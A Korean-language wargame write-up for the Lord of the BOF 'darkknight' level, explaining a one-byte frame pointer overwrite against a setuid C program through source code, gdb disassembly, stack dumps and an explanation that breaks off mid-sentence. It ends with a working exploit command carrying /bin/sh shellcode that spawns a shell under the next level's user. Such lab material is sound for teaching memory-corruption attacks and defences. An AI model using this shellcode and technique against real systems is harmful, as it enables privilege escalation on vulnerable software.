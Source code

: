 # Summary

**이전 문제와 동일한 내용은 생략하고 추가된 내용만 다루었다.**

> 문제의 소스코드

```c
[golem@localhost golem]$ cat darkknight.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/

#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

> 문제의 소스코드에서 추가된 내용을 살펴보자

- `buffer`크기 `40Bytes` & strncpy 함수 `41Bytes` overwrite 
- `buffer` 뒤에 덮어 쓸 수 있는 주소 `1Byte`
- 힌트: FPO(Frame Pointer Overwrite)

<br>

FPO(Frame Pointer Overwrite)를 이용하는 문제이다.

<br>

# Analysis

`gdb` 분석을 위해 `tmp`디렉터리를 생성하여 원본 바이너리를 복사 후

함수 `problem_child`를 `disas(semble)`하여 브레이크 지점을 지정해준다.

여기서는 스택이 정리되는 [에필로그][epp]가 시작되기 전인 `leave`함수에 브레이크 포인트를 걸었다.

```python
[golem@localhost golem]$ mkdir tmp;cp darkknight tmp
[golem@localhost golem]$ cd tmp
[golem@localhost tmp]$ gdb -q darkknight
(gdb) set disassembly-flavor intel
(gdb) disas problem_child
Dump of assembler code for function problem_child:
0x8048440 <problem_child>:	push   %ebp
0x8048441 <problem_child+1>:	mov    %ebp,%esp
0x8048443 <problem_child+3>:	sub    %esp,40
0x8048446 <problem_child+6>:	push   41
0x8048448 <problem_child+8>:	mov    %eax,DWORD PTR [%ebp+8]
0x804844b <problem_child+11>:	push   %eax
0x804844c <problem_child+12>:	lea    %eax,[%ebp-40]
0x804844f <problem_child+15>:	push   %eax
0x8048450 <problem_child+16>:	call   0x8048374 <strncpy>
0x8048455 <problem_child+21>:	add    %esp,12
0x8048458 <problem_child+24>:	lea    %eax,[%ebp-40]
0x804845b <problem_child+27>:	push   %eax
0x804845c <problem_child+28>:	push   0x8048500
0x8048461 <problem_child+33>:	call   0x8048354 <printf>
0x8048466 <problem_child+38>:	add    %esp,8
0x8048469 <problem_child+41>:	leave
0x804846a <problem_child+42>:	ret
0x804846b <problem_child+43>:	nop
End of assembler dump.
(gdb) b*problem_child+41
Breakpoint 1 at 0x8048469
```

<br>

다음은 임의의 값으로 `NOP*40`을 버퍼에 덮어쓴 뒤 리턴 값을 덮을 1바이트에 특정 문자열 `aa`를 삽입해주고

프로그램을 실행해준 뒤 스택의 변화를 살펴보았다.

버퍼에 `NOP*40`과 `ret`부분에 0xbffffa**aa**가 정상적으로 덮어 씌워진 것을 확인할 수 있다.

```python
(gdb) r `python -c "print '\x90'*40+'\xaa'"`
Starting program: /home/golem/tmp/darkknight `python -c "print '\x90'*40+'\xaa'"`
���������������������������������������������%��������	@

Breakpoint 1, 0x8048469 in problem_child ()
(gdb) x/40w $esp-40
0xbffffa6c:	0xbffffa84	0x40066070	0x40106980	0x08048500
0xbffffa7c:	0xbffffa94	0x401081ec	0xbffffabc	0x08048466
0xbffffa8c:	0x08048500	0xbffffa94	0x90909090	0x90909090
0xbffffa9c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffaac:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffabc:	0xbffffaaa	0x0804849e	0xbffffc25	0xbffffae8
0xbffffacc:	0x400309cb	0x00000002	0xbffffb14	0xbffffb20
0xbffffadc:	0x40013868	0x00000002	0x08048390	0x00000000
0xbffffaec:	0x080483b1	0x0804846c	0x00000002	0xbffffb14
0xbffffafc:	0x080482e4	0x080484dc	0x4000ae60	0xbffffb0c
```

<br>

다음은 쉘코드를 버퍼에 삽입하여 쉘코드로 덮은 지점에 `ret`를 변경해보자.

현재 `ret`의 경우 1바이트만 조작이 가능하기 때문에 `0xbffffa__` 두자리 값을 변경하여 쉘코드를 실행시켜야 할 것이다.

여기서 알아둬야 할 점은 에필로그



# Exploit

```python
[golem@localhost golem]$ ./darkknight `python -c "print '\xb8\xfa\xff\xbf'+'\x90'*12+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'+'\xb0'"`
����������������1�Ph//shh/bin��PS�ᙰ
                                    ̀�����;������	@
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```



[epp]: 